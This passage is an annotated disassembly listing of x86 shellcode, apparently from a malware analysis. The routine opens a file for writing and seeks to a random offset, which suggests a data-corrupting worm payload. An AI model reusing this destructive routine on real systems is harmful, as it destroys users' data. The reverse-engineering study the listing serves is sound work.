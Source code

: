 <span style="color:maroon">seg000:0000023A </span>D1 E2                             <span style="color:navy">shl     edx</span><span style="color:navy">, </span><span style="color:green">1</span>
<span style="color:maroon">seg000:0000023C </span>52                                <span style="color:navy">push    edx</span>             ; GENERIC_WRITE (0x40000000)
<span style="color:maroon">seg000:0000023D </span>50                                <span style="color:navy">push    eax</span>             ; lpFileName
<span style="color:maroon">seg000:0000023E                                   </span><span style="color:navy">db      </span><span style="color:green">3Eh
</span><span style="color:maroon">seg000:0000023E </span>3E FF 15 DC 40 0D+                <span style="color:navy">call    dword ptr ds:</span><span style="color:green">5E0D40DCh</span> ; Probably CreateFile
<span style="color:maroon">seg000:00000245 </span>83 C4 14                          <span style="color:navy">add     esp</span><span style="color:navy">, </span><span style="color:green">14h</span>
<span style="color:maroon">seg000:00000248 </span>31 C9                             <span style="color:navy">xor     ecx</span><span style="color:navy">, ecx</span>
<span style="color:maroon">seg000:0000024A </span>81 E9 E0 B1 FF FF                 <span style="color:navy">sub     ecx</span><span style="color:navy">, </span><span style="color:green">0FFFFB1E0h</span> ; 0x4e20
<span style="color:maroon">seg000:00000250 </span>3D FF FF FF FF                    <span style="color:navy">cmp     eax</span><span style="color:navy">, </span><span style="color:green">0FFFFFFFFh</span>
<span style="color:maroon">seg000:00000255 </span>0F 84 37 FF FF FF                 <span style="color:navy">jz      loc_192</span>
<span style="color:maroon">seg000:0000025B </span>56                                <span style="color:navy">push    esi</span>             ; (saving socket)
<span style="color:maroon">seg000:0000025C </span>89 C6                             <span style="color:navy">mov     esi</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:0000025E </span>31 C0                             <span style="color:navy">xor     eax</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:00000260 </span>50                                <span style="color:navy">push    eax</span>             ; FILE_BEGIN
<span style="color:maroon">seg000:00000261 </span>50                                <span style="color:navy">push    eax</span>             ; NULL
<span style="color:maroon">seg000:00000262 </span>2D 03 BC FC FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFFCBC03h</span>
<span style="color:maroon">seg000:00000267 </span>F7 E5                             <span style="color:navy">mul     ebp</span>
<span style="color:maroon">seg000:00000269 </span>2D 3D 61 D9 FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFD9613Dh</span>
<span style="color:maroon">seg000:0000026E </span>89 C5                             <span style="color:navy">mov     ebp</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:00000270 </span>D1 E8                             <span style="color:navy">shr     eax</span><span style="color:navy">, </span><span style="color:green">1</span>
<span style="color:maroon">seg000:00000272 </span>66 89 C8                          <span style="color:navy">mov     ax</span><span style="color:navy">, cx</span>
<span style="color:maroon">seg000:00000275 </span>50                                <span style="color:navy">push    eax</span>             ; (rand() &lt;&lt; 15) | 0x4e20
<span style="color:maroon">seg000:00000276 </span>56                                <span style="color:navy">push    esi</span>             ; hFile
<span style="color:maroon">seg000:00000277                                   </span><span style="color:navy">db      </span><span style="color:green">3Eh
</span><span style="color:maroon">seg000:00000277 </span>3E FF 15 C4 40 0D+                <span style="color:navy">call    dword ptr ds:</span><span style="color:green">5E0D40C4h</span> ; Probably SetFilePointer
<span style="color:maroon">seg000:00000277 </span>5E                                                        ; (really not sure about this one)
<span style="color:maroon">seg000:0000027E </span>31 C9                             <span style="color:navy">xor     ecx</span><span style="color:navy">, ecx</span>
<span style="color:maroon">seg000:00000280 </span>51                                <span style="color:navy">push    ecx</span>             ; 0
<span style="color:maroon">seg000:00000281 </span>89 E2                             <span style="color:navy">mov     edx</span><span style="color:navy">, esp</span>